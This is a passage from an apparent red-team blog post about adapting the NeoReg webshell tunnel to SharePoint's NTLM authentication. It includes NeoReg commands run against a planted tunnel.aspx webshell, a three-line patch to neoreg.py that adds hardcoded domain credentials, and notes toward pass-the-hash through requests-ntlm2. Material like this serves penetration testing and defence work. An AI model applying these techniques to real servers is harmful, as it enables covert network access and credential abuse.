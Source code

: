 ```bash
$ python3 neoreg.py -k sup3rs3cr3tp4ss -u http://intranet.sp2016gm.dev/_layouts/15/tunnel.aspx
```

However, there are two problems we are going to face if we try to use ReGeorg/NeoReg in a Sharepoint instance: NTLM Authentication and Session State.

## NTLM Authentication

The first problem we are facing is web NTLM Authentication. Although there is a flag to add headers which can be used to set a fixed `Authorization` header, in the case of NTLM this is not enough as it changes dynamically with its challenge-response model.

```bash
 $ python3 neoreg.py -k sup3rs3cr3tp4ss -u http://intranet.sp2016gm.dev/_layouts/15/tunnel.aspx
 ...
 Tunnel at:
    http://intranet.sp2016gm.dev/_layouts/15/tunnel.aspx
+------------------------------------------------------------------------+
[ERROR   ]  Georg is not ready, please check URL and KEY. rep: [401] Unauthorized
```

To fix this, we can implement a small new functionality to handle NTLM authentication by taking advantage from the existing `requests-ntlm2` Python library. It can be installed with `pip`:

```
pip install requests-ntlm2
```

In the Python client file `neoreg.py` we can use hardcoded credentials as a first approach to check if it is working. Only three lines are required to implement authentication using this library: the import sentence at `line 17` and the auth item itself at `lines 720-721`.

```python
...
17.         from requests_ntlm2 import HttpNtlmAuth
...
717.        conn.headers['Accept-Encoding'] = 'gzip, deflate'
718.        conn.headers['User-Agent'] = USERAGENT
719.        
720.        auth=HttpNtlmAuth('gmsp2016.dev\\sp_services','pass@word1')
721.        conn.auth=auth
```
If for some reason the cleartext password is not known but we have the NTLM hash, it can be used directly.  It is not a well documented function, but digging around into the code shows that Pass the Hash is already implemented in this library. GitHub itself is a nice tool to trace code as it is capable of matching function definitions between files.

We start by looking at `requests_ntlm2.py` file until the first reference to header negotiation appears.
{{ figure(name="fig5.png", caption="Reference in requests_ntlm2.py.") }}

Next file to be inspected is `dance.py` inside the same project. The `HttpNtlmContext` class is wrapping its namesake in the `ntlm_auth` project, which is the base of this one.
{{ figure(name="fig6.png", caption="Reference in dance.py.") }}
